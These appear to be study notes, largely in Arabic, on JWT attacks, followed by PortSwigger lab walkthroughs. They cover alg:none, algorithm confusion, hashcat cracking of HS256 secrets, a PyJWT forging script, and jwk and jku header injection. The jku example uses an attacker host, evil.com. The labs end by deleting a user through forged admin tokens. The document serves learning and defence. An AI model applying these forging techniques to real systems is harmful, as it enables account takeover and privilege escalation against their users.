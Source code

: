 # JWT


- <details>
    <summary>what is JWT?</summary>
  
  # 🔐 JWT Attacks - مقدمة
  
  ## ما هو JWT؟
  
  -   **JWT = JSON Web Token** → معيار لتمثيل البيانات كـ JSON بين
      الأنظمة.
  -   غالبًا يُستخدم في:
      -   **Authentication** (تأكيد هوية المستخدم)
      -   **Session management** (إدارة الجلسات)
      -   **Access control** (تحديد الصلاحيات)
  
  ------------------------------------------------------------------------
  
  ## بنية JWT
  
  يتكون JWT من **3 أجزاء** مفصولة بنقطة `.`:
  
  1.  **Header** → معلومات عن التوكن (الخوارزمية، النوع).
  2.  **Payload** → البيانات (claims) مثل اسم المستخدم والصلاحيات.
  3.  **Signature** → توقيع يعتمد على مفتاح سري للتحقق من عدم التلاعب.
  
  مثال:
  
      xxxxx.yyyyy.zzzzz
  
  ------------------------------------------------------------------------
  
  ## مثال عملي - Payload
  
  ``` json
  {
      "iss": "portswigger",
      "exp": 1648037164,
      "name": "Carlos Montoya",
      "sub": "carlos",
      "role": "blog_author",
      "email": "carlos@carlos-montoya.net",
      "iat": 1516239022
  }
  ```
  
  ### ملاحظات:
  
  -   **Readable**: أي شخص يقدر يفك البيانات لأنها Base64Url (ليست مشفرة).
  -   **Integrity**: التوقيع هو اللي يمنع التلاعب بالبيانات.
  
  ------------------------------------------------------------------------
  
  ## دور الـ Signature
  
  -   التوقيع يتكون من:
  
          HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret )
  
  -   عند استلام التوكن، السيرفر يتحقق من صحة التوقيع.
  
  -   أي تعديل في **Header** أو **Payload** يجعل التوقيع غير صالح.
  
  ------------------------------------------------------------------------
  
  ## نصائح عملية
  
  -   جرب على [jwt.io](https://jwt.io) → فك التوكن وشوف التغيير في
      التوقيع.
  -   استخدم أدوات مثل **Burp Suite** أو **jwt_tool** لاختبار ثغرات JWT.
  
  ------------------------------------------------------------------------
  
    
  </details>




- <details>
     <summary>JWT attacks</summary>

  
  # JWT Attacks Notes
  
  ## 1. JWT vs JWS vs JWE
  
  -   **JWT (JSON Web Token)**: مجرد Format قياسي للـ Tokens. ممكن يكون
      Signed أو Encrypted.
  -   **JWS (JSON Web Signature)**: JWT معمول له **توقيع** (Signature)
      باستخدام خوارزمية زي HS256 أو RS256 عشان يضمن سلامة البيانات.
  -   **JWE (JSON Web Encryption)**: JWT معمول له **تشفير** كامل عشان يحمي
      المحتوى من إنه يتشاف.
  
  ------------------------------------------------------------------------
  
  ## 2. كيف تظهر ثغرات JWT؟
  
  -   **ضعف في التحقق من التوقيع**:\
      مثال: السيرفر يقبل الـ "alg": "none" → يعني يعتبر الـ Token صالح من
      غير أي توقيع.
  
  -   **ضعف في اختيار الخوارزمية**:\
      مثلًا السيرفر متوقع RS256 (مفتاح عام/خاص) لكن يسمح بالتحويل إلى
      HS256 باستخدام المفتاح العام كـ secret.
  
  -   **تسريب الـ Secret**:\
      لو الـ Secret ضعيف أو متسرب، المهاجم يقدر يولّد توكنات صحيحة.
  
  -   **عدم التحقق من الـ Claims**:
  
      -   تجاهل الـ `exp` → التوكن يفضل صالح بعد انتهاء صلاحيته.
      -   تجاهل الـ `aud` → المهاجم ممكن يستخدم التوكن في تطبيق مختلف.
  
  ------------------------------------------------------------------------
  
  ## 3. Impact (التأثير)
  
  -   انتحال هوية المستخدمين (Authentication Bypass).
  -   سرقة صلاحيات (Privilege Escalation).
  -   وصول إلى بيانات أو عمليات محمية.
  
  ------------------------------------------------------------------------
  
  ## 4. مثال على JWT
  
  Header:
  
  ``` json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
  
  Payload:
  
  ``` json
  {
    "sub": "1234567890",
    "name": "Alice",
    "admin": true,
    "exp": 1724252214
  }
  ```
  
  Signature:
  
      HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  
  ------------------------------------------------------------------------
  
  ## 5. أمثلة على الهجوم
  
  ### 5.1 Algorithm None Attack
  
  ``` json
  {
    "alg": "none",
    "typ": "JWT"
  }
  ```
  
  → السيرفر يقبل التوكن بدون توقيع.
  
  ### 5.2 RS256 to HS256 Attack
  
  -   السيرفر متوقع RS256 (مفتاح عام/خاص).\
  -   المهاجم يغيرها إلى HS256 ويستخدم المفتاح **العام** كـ secret لتوليد
      توقيع صحيح.
  
  ------------------------------------------------------------------------
  
  # ✅ الخلاصة
  
  -   دايمًا تحقق من صحة الخوارزمية.
  -   لا تستخدم `none` algorithm.
  -   استخدم Secrets قوية أو مفاتيح صحيحة.
  -   راقب وصحّح Claims زي `exp`, `aud`, `iss`.
  
  

  </details>




- <details>
    <summary>JWT Attacks - Brute-forcing Secret Keys</summary>
    
    # JWT Attacks - Brute-forcing Secret Keys
    
    ## الفكرة الأساسية
    - بعض خوارزميات التوقيع مثل **HS256 (HMAC + SHA-256)** تعتمد على **secret key** (سلسلة نصية عشوائية).
    - لو الـ secret ضعيف أو قابل للتخمين (زي كلمة مرور ضعيفة)، المهاجم يقدر يعمل:
      - إنشاء JWT بأي header و payload.
      - إعادة التوقيع باستخدام الـ secret المخمَّن.
      - الحصول على توقيع صحيح وبالتالي تزوير الـ JWT.
    
    ---
    
    ## أخطاء شائعة من المطورين
    - نسيان تغيير الـ default/placeholder secret.
    - نسخ كود من الإنترنت ونسيان تعديل الـ hardcoded secret.
    - استخدام أسرار ضعيفة أو مشهورة.
    
    ---
    
    ## أداة Brute-force: Hashcat
    - **Hashcat** بيستخدم لمهاجمة مفاتيح JWT بسرعة.
    - موجود مسبقًا في **Kali Linux**.
    - لازم يكون عندك:
      - JWT صالح (موقَّع من السيرفر).
      - wordlist فيها أسرار معروفة.
    
    ---
    
    ## الأمر المستخدم
    ```bash
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    ```

    https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
    
    - ``-a 0`` → هجوم dictionary.
    
    - ``-m 16500`` → مود JWT HS256.
    
    - ``<jwt>`` → التوكن الهدف.
    
    - ``<wordlist>`` → قائمة .
    
    
    #### النتيجة
    
    > Hashcat بيجرب كل secret من الـ wordlist.
    
    لو لقى مطابقة، هيطبع بالشكل:
    
    ```ruby
    <jwt>:<identified-secret>
    ```
    
    لو شغلت الأمر أكتر من مرة، لازم تضيف:
    
    ```
    --show
    ```
    
    
    ```
    hashcat -a 0 -m 16500 <jwt> /usr/share/seclists/Passwords/JWT/jwt.secrets.list
    ```
    ---
    
    <details>
    
    ```
    python3 jwt_tool.py <jwt> -S hs256 -k <secret>
    ```
    
    ```python
    import jwt
    
    payload = {"username": "attacker", "role": "admin"}
    secret = "the_secret_you_found"
    
    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    ```
    
    
    
        
    </details>


  </details>






- <details>
    <summary>JWT header parameter injections</summary>

    # JWT Header Injection - JWK Parameter Exploit
    
    ## 📌 الفكرة العامة
    الـ **JWT** بيتكون من:
    1. **Header** → بيحتوي على معلومات زى `alg` (الخوارزمية) و ممكن كمان يحتوي على حاجات إضافية زى `kid`, `jwk`, `jku`.
    2. **Payload** → البيانات (claims).
    3. **Signature** → توقيع بيتعمل باستخدام secret أو مفتاح خاص (private key).
    
    السيرفر لما يستقبل الـ JWT بيستخدم الـ **Header** عشان يعرف:
    - أى خوارزمية تستخدم للتأكد من التوقيع (`HS256` / `RS256`).
    - أى مفتاح يجيب ويستخدم (من الـ `kid` أو `jwk` أو `jku`).
    
    ---
    
    ## 📌 التركيز هنا: `jwk` Injection
    - `jwk` = **JSON Web Key** → عبارة عن **مفتاح عام (Public Key)** مكتوب فى شكل JSON.
    - المفروض السيرفر عنده **قائمة محدودة** من المفاتيح اللى يثق فيها.
    - لكن لو السيرفر **مُسيء التهيئة (Misconfigured)**، ممكن يقبل أى مفتاح عام **موجود داخل التوكن نفسه** 🤦.
    
    ---
    
    ## 📌 إزاى نستغل ده؟
    1. نولد زوج مفاتيح (RSA Public/Private).
       - عندنا المفتاح **الخاص** (Private) → نوقع بيه التوكن.
       - عندنا المفتاح **العام** (Public) → نحطه جوه الهيدر فى باراميتر `jwk`.
    
    2. نعدل الـ Payload (مثلاً نغير `role` من `user` إلى `admin`).
    
    3. نوقع التوكن باستخدام **المفتاح الخاص بتاعنا**.
    
    4. نحط المفتاح العام جوه الهيدر:
       ```json
       {
         "alg": "RS256",
         "typ": "JWT",
         "jwk": {
           "kty": "RSA",
           "e": "AQAB",
           "n": "....",  
           "kid": "myCustomKey"
         }
       }
       ```
    
    5. لو السيرفر بيقبل ده → هيستخدم المفتاح العام اللى إحنا حاطينه ويتأكد من التوقيع، وده هيكون صحيح لأننا وقعنا بالمفتاح الخاص بتاعنا.  
       🔥 وده بيدينا **تحكم كامل فى التوكن**.
    
    ---
    
    ## 📌 الخطوات العملية (مثال باستخدام Burp + JWT Editor Extension)
    1. فى Burp → افتح تبويب **JWT Editor Keys**.
    2. اعمل **Generate RSA Key**.
    3. ابعت الريكوست اللى فيه JWT لـ **Repeater**.
    4. روح على تبويب الـ **JSON Web Token**.
    5. عدل الـ Payload (مثلاً غير `user":"test"` لـ `user":"admin"`).
    6. اضغط **Attack → Embedded JWK**.
    7. اختار المفتاح اللى انت مولده.
    8. ابعت الريكوست الجديد للسيرفر.
       - لو Misconfigured → هيديك access كأنك Admin.
    
    ---
    
    ## 📌 الخلاصة
    - **الـ jwk Injection** = بنخدع السيرفر يخلى باله من المفتاح العام بتاعنا.
    - إحنا نوقع بالتوكن بمفتاحنا الخاص.
    - السيرفر يتأكد باستخدام المفتاح اللى إحنا حطينه → فالتحقق يعدى.
    - النتيجة: نتحكم فى التوكن ونعدل أى Claims (زي role → admin).
    
    
    
    ---
    
    




  </details>
 







- <details>
      <summary>JWT header parameter injections lead to SSRF</summary>

    # Injecting self-signed JWTs via the `jku` parameter
    
    ## الفكرة الأساسية
    الـ JWT (JSON Web Token) أحيانًا بيحتوي في الـ header على باراميتر اسمه `jku`.  
    الـ `jku` ده بيشير إلى **رابط (URL)** بيحتوي على ملف JSON فيه **JWK Set** (مجموعة مفاتيح عامة) واللي السيرفر بيستخدمها للتحقق من التوقيع.
    
    بدل ما المفتاح العام يكون محطوط مباشرة في الـ token (زي ما بيحصل مع `jwk`)، السيرفر بيروح يجيب المفتاح من الرابط اللي في `jku`.
    
    ---
    
    ## JWK Set
    ملف JWK Set هو JSON بيحتوي على Array من المفاتيح العامة (JWKs).  
    مثال:
    
    ```json
    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
                "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
            },
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
                "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
            }
        ]
    }
    ```
    
    ممكن تلاقي السيرفر بيعرض الملف ده في لينك ثابت زي:
    ```
    /.well-known/jwks.json
    ```
    
    ---
    
    ## إزاي ممكن نستغل ده؟
    لو السيرفر بيثق في أي لينك بيتحط في `jku` (من غير فلترة كويسة):
    
    1. نولّد زوج مفاتيح RSA خاص بينا (Private + Public).
    2. نجهّز JWK Set يضم المفتاح **العام** بتاعنا ونرفعه على سيرفر نتحكم فيه (مثلاً `https://evil.com/jwks.json`).
    3. نولّد JWT جديد ونحط في الـ header:
       ```json
       {
         "alg": "RS256",
         "jku": "https://evil.com/jwks.json",
         "kid": "المفتاح_اللي_جهزناه"
       }
       ```
    4. نوقّع التوكن بالمفتاح **الخاص** اللي عندنا.
    5. السيرفر هيروح يجيب المفتاح العام من لينك `jku` اللي إحنا حاطينه (بتاعنا) وبالتالي يصدّق التوكن.
    
    بكده نقدر نزور أي claims جوة التوكن (مثلاً ندي نفسنا role = admin).
    
    ---
    
    ## طرق الحماية
    - السماح بتحميل المفاتيح من دومينات موثوقة فقط (whitelist).
    - تجاهل أي `jku` جاي من المستخدم.
    - التحقق إن الدومين مش متلاعب فيه (ضد SSRF/URL parsing tricks).
    - استخدام certificate pinning بدل ما يعتمد على جلب مفاتيح ديناميكياً.
    
    ---
    
    ## ملخص
    - `jku` = URL بيحتوي على مفاتيح عامة.
    - لو السيرفر مش بيفلتر اللينك → المهاجم ممكن يرفع JWK Set خاص بيه.
    - ده يسمح له يوقّع JWT بالتوكن بتاعه → السيرفر يصدّق إنه valid.
    - النتيجة = **تزوير JWT + تصعيد صلاحيات**.
    
        
  </details>
























































----



<details>
  <summary>Lab: JWT authentication bypass via unverified signature</summary>


1. login as **`wiener : peter`**

```http
GET /my-account?id=wiener HTTP/2

Host: 0a560020036c2252813698d200c400be.web-security-academy.net

Cookie: session=eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a560020036c2252813698d200c400be.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

### **`JWT`**

```json
eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
```

- <details>
      <summary>jwt.io</summary>
 
     <img width="1183" height="326" alt="image" src="https://github.com/user-attachments/assets/48bc8145-7604-4124-987c-5add5170affa" />

  
   </details>


- <details>
      <summary>JWT editor burp</summary>

    <img width="732" height="713" alt="image" src="https://github.com/user-attachments/assets/9e106d7c-2521-4e54-98c5-3a348e5d417e" />

  
   </details>




<img width="741" height="125" alt="image" src="https://github.com/user-attachments/assets/554d6f72-cedc-4ccd-972f-4f2618b5b91c" />

<img width="1526" height="738" alt="image" src="https://github.com/user-attachments/assets/045c7041-0caf-4d5f-8838-4a11d70e3479" />


> change path to **`/admin`**

<img width="1498" height="657" alt="image" src="https://github.com/user-attachments/assets/24d92751-c0cb-4d14-ba46-0e5338441d7d" />

<img width="1356" height="557" alt="image" src="https://github.com/user-attachments/assets/0c504fb1-c66e-4c15-867b-9cf29892604e" />

<img width="1430" height="491" alt="image" src="https://github.com/user-attachments/assets/1e4b1cdc-88ad-4dd8-9c95-0d9023896589" />




  
</details>



<details>
    <summary>Lab: JWT authentication bypass via flawed signature verification</summary>

1. login as **`wiener : peter`**

<img width="747" height="613" alt="image" src="https://github.com/user-attachments/assets/49400493-6f82-4b6d-84ae-7872076d755e" />

> change **`algo`** to `none` and remove the signeture and change **``carlos``** to **``administrator``**

<img width="1505" height="731" alt="image" src="https://github.com/user-attachments/assets/6a59e0d7-bc8b-4d6c-bb91-b314fa9d88d4" />


> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1505" height="734" alt="image" src="https://github.com/user-attachments/assets/4de7a1c3-ea34-4b8a-9a49-40a2b1d2d401" />

    
</details>







<details>
    <summary>Lab: JWT authentication bypass via weak signing key</summary>


```
eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M
```

<img width="742" height="614" alt="image" src="https://github.com/user-attachments/assets/45651d25-d4f7-434e-99d5-9667d0c0bcdb" />


```
hashcat -a 0 -m 16500 eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```

<img width="1374" height="273" alt="image" src="https://github.com/user-attachments/assets/f9e1cded-604e-47a2-834f-157ba0aba4c7" />

```
secret1
```

<img width="1546" height="745" alt="image" src="https://github.com/user-attachments/assets/09176375-61b2-4e35-9181-8eab68b53d87" />

> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1492" height="649" alt="image" src="https://github.com/user-attachments/assets/87127834-aeb3-4d22-b683-7c305bc7849e" />




    
</details>







<details>
    <summary>Lab: JWT authentication bypass via jwk header injection</summary>


```json
eyJraWQiOiJiZjFhOTg1Zi00NDgwLTQ1MmQtODQzZS0wMjIyMGUzZTg2YmYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyODc5MSwic3ViIjoid2llbmVyIn0.f2YN61RhTmuZSUdncWJi6PKVky_FYVsWfPW1ue50xJBGExuDmIpl7Ufhy8DlgGN_q2XWI0x5JG85bhoUcLc-8wed0RSPuu0P1C0g-f9naycBtAUDb_wNFCR7WdDSn-L8JJd8UWJS4-XAozvW9EFMk4q5D0YlfsCWPz2oe_JLKlvUug12MN3vRYp_wVgpzumwfAhrMowNNFpBOIjaBxc_hQXMmJ65qnqQD9h2lViue1PAPgXoHmLQUkl9qrvrEMTATCdlgQDFlmPAbgJxn4sVIDtTsi6cxLjaNnpip6fldEyexxSaE3U9x7rnrgTQf0k5vOrpxwtcgp_u1a6dmGPINg
```


<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/2e653954-72a1-45bc-9d5f-e9ca6f2923c1" />


---

> genrate ``RSA key``

<img width="798" height="656" alt="image" src="https://github.com/user-attachments/assets/5150b333-3fb7-4639-ab77-3c8bbb26b8fe" />


<img width="742" height="675" alt="image" src="https://github.com/user-attachments/assets/e3a19886-667c-4798-a3dd-2721db6b47fa" />


---

> send the request

<img width="1544" height="635" alt="image" src="https://github.com/user-attachments/assets/4756464e-c1fc-4120-9c2d-b098c596c390" />


----

> now change the path 

```
/admin/delete?username=carlos
```

<img width="1498" height="671" alt="image" src="https://github.com/user-attachments/assets/e2a03383-f021-41df-81e0-ac7105e16b12" />



<details>

## 1. إيه المفروض يحصل (السليم)؟

```


لما السيرفر يستقبل JWT موقّع، لازم يتأكد من التوقيع باستخدام المفتاح الصحيح فقط (secret أو public key اللي هو مبرمج عليه).

المفروض السيرفر مايثقش في أي مفتاح جاي من الكلاينت.
```

---

## 2. الغلط في الـ jwk injection

```


في بعض السيرفرات (لو misconfigured) بيكون الكود مكتوب بحيث يقرأ jwk من الـ JWT نفسه.

يعني السيرفر بدل ما يكون عنده public key ثابت يتحقق بيه، بيقول:
"تمام، الكلاينت بعتلي المفتاح بتاعه في الـ jwk.. هستخدمه للتحقق من التوقيع".

هنا الغلط: السيرفر بيثق في أي RSA key يبعته المهاجم.
```



<img width="1536" height="1024" alt=" Image Aug 29, 2025, 03_05_28 AM" src="https://github.com/user-attachments/assets/069ba80b-1485-41da-a7d8-da7467611bca" />


    
</details>

    
    
</details>





<details>
    <summary></summary>
</details>



























